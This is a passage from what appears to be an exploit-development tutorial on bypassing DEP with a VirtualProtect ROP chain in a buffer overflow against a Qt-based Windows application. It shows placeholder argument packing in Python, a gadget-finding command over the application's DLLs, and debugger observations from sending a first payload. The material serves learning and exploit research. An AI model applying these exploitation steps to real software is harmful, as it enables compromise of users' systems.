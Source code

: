 3. Here we'll put our Return Address (again)
virtual_protect_placeholder += pack("<L", (0x47474747)) # Shellcode Address

4. Here is going to be the dwSize, which is equal to 00001000
virtual_protect_placeholder += pack("<L", (0x48484848)) # dwSize

5. flAllocationType - 00000040
virtual_protect_placeholder += pack("<L", (0x49494949)) # flNewProtect

6. Last one is the flProtect - Any writeble address
virtual_protect_placeholder += pack("<L", (0x51515151)) # lpflOldProtect

This is what we are going to work.

# Generating Gadgets

Now, let's generate the gadgets here. We'll use the scripts form [EPI052](https://github.com/epi052/osed-scripts)

I did not tested the bad chars of the application because this is not the main point here, so the bad chars are 0x00 and 0x20.

```sh
find-gadgets.py -f libgcc_s_dw2-1.dll  libstdc++-6.dll  libwinpthread-1.dll  Qt5Core.dll  Qt5Gui.dll  Qt5Network.dll  Qt5Sql.dll Qt5Xml.dll  qwindows.dll -b 00 20 -a x86 -o rop.txt
```

After that it generates all the usable gadgets to us. So, we can now start digging into that and seeing what can be useful for us.

With this huge list of gadgets, should be easy for us to perform the bypass.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect/2023-01-31-Buffer%20Overflow-DEP-VirtualProtect%2009:07:13.png)

# Sending the First Payload

We see that on the place of the EIP, we put a simple RET instruction in that. That is because we want to return to stack (ESP), near to the values we put to change.

We put a breakpoint on **0x6ab2223e** which is our RET instruction and then execute the payload

We see that when we reach the breakpoint, 20 bytes before our ESP we have set our fake addresses that will be changed. So we are on the right track.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow%20-%20DEP%2001:49:55.png)

When we execute the RET instruction, we go to there, where ours NOPs are seted.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow%20-%20DEP%2001:50:43.png)

What we must look here. If we see this point, even after the instruction that we executed, the 20 bytes before ESP still contains our fake values.

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow-DEP%2007:13:42.png)
